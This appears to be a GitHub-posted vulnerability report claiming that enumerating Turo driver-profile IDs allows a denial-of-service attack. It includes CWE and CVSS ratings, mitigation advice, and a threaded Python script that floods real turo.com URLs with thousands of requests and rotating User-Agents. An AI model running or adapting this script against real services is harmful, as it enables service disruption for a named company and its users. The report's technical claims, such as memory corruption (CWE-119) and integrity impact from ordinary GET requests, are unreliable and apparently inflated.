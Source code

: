 # Turbo

---

### Vulnerability Overview:
**Title**: Directory Enumeration Leading to Potential Resource Exhaustion (Ddos) on Turo

**Summary**:
A vulnerability has been identified on Turo that could lead to resource exhaustion or a Denial of Service (Ddos) attack. By manipulating the last 8 digits in the URL of driver profiles, an attacker can flood the server with requests, potentially overwhelming the system and causing significant performance degradation or outages.

### Steps to Reproduce:
1. **Identify a Turo driver profile URL**. For example, `https://turo.com/gb/en/drivers/15418658`.
2. **Run the provided Python script** (see below) to generate and send randomized requests to similar URLs by changing the last 8 digits.
3. Observe how the server handles these requests and whether it results in resource exhaustion or increased response times.

### CWE IDs:
- **CWE-400**: Uncontrolled Resource Consumption ('Resource Exhaustion')
  - This CWE describes scenarios where an application allows unintentional or intentional resource exhaustion through excessive requests or similar means.
- **CWE-703**: Improper Check or Handling of Exceptional Conditions
  - The server's inability to handle a large number of incoming requests or improper handling of high traffic falls into this category.
- **CWE-119**: Improper Restriction of Operations within the Bounds of a Memory Buffer
  - This CWE pertains to potential memory corruption or overflow due to excessive input.

### CVSS Score:
Considering the potential for resource exhaustion and minor memory issues, the CVSS score is adjusted as follows:

- **CVSS Base Score**: 7.7 (High)
  - **Attack Vector (AV)**: Network (N)
  - **Attack Complexity (AC)**: Low (L)
  - **Privileges Required (PR)**: None (N)
  - **User Interaction (UI)**: None (N)
  - **Scope (S)**: Unchanged (U)
  - **Confidentiality (C)**: None (N)
  - **Integrity (I)**: Low (L) – Reflecting potential, though limited, impact on system integrity (e.g., memory corruption).
  - **Availability (A)**: High (H)

**Justification**:
- The attack is conducted over a network with low complexity and no special privileges.
- The integrity score is adjusted to Low due to potential minor memory corruption.
- The availability impact remains High due to the potential for significant service disruption.

### Impact:
- **Availability**: High — The service could become significantly slower or unresponsive due to resource exhaustion.
- **Integrity**: Low — Potential for minor memory corruption, though this impact is limited.
- **Reputation**: Potential damage to Turo's reputation if the service is disrupted.
- **User Experience**: Users could experience poor performance, data corruption, or service outages.

### Recommendations:
- Implement rate limiting on requests to driver profile URLs.
- Monitor for and block unusual patterns or excessive request frequencies.
- Validate and restrict URL patterns to mitigate resource exhaustion and memory issues.

### Python Script

The updated script below uses threading to maximize the load on the server by sending multiple concurrent requests. This approach increases the potential for resource exhaustion and demonstrates the vulnerability more aggressively.

**How to Use the Script:**
1. Install Python and the `requests` and `threading` libraries if not already installed (`pip install requests`).
2. Copy the script below into a `.py` file (e.g., `turo_ddos_test.py`).
3. Run the script using the command `python turo_ddos_test.py`.
4. The script will send up to 1000 requests per URL concurrently, simulating a high-intensity attack.

```bash
python3 turbo.py
```

```python
import requests
import random
import threading

# Define a list of random User-Agent strings
user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0",
    "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 14_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Mobile/15E148 Safari/604.1"
]

def generate_random_url(base_url):
    # Generate a random 8-digit number
    random_digits = ''.join([str(random.randint(0, 9)) for _ in range(8)])
    # Replace the last 8 characters of the base URL
    return base_url[:-8] + random_digits

def send_request(url):
    random_url = generate_random_url(url)
    headers = {
        "User-Agent": random.choice(user_agents)
    }
    try:
        response = requests.get(random_url, headers=headers)
        print(f"Request: {random_url} - Status Code: {response.status_code}")
    except requests.exceptions.RequestException as e:
        print(f"Request failed: {e}")

def thread_function(base_url, num_requests):
    for _ in range(num_requests):
        send_request(base_url)

if __name__ == "__main__":
    base_urls = [
        "https://turo.com/gb/en/drivers/15418658",
        "https://turo.com/gb/en/drivers/11023149",
        "https://turo.com/gb/en/drivers/7828042",
        "https://turo.com/gb/en/drivers/3474096"
    ]

    num_threads = 10  # Number of concurrent threads
    requests_per_thread = 100  # Number of requests per thread

    threads = []
    for base_url in base_urls:
        for _ in range(num_threads):
            thread = threading.Thread(target=thread_function, args=(base_url, requests_per_thread))
            thread.start()
            threads.append(thread)

    for thread in threads:
        thread.join()

```

**Disclaimer**: This script should only be run in a controlled environment where you have explicit permission to perform such tests. Unauthorized use on a live system could violate terms of service and be illegal.

---
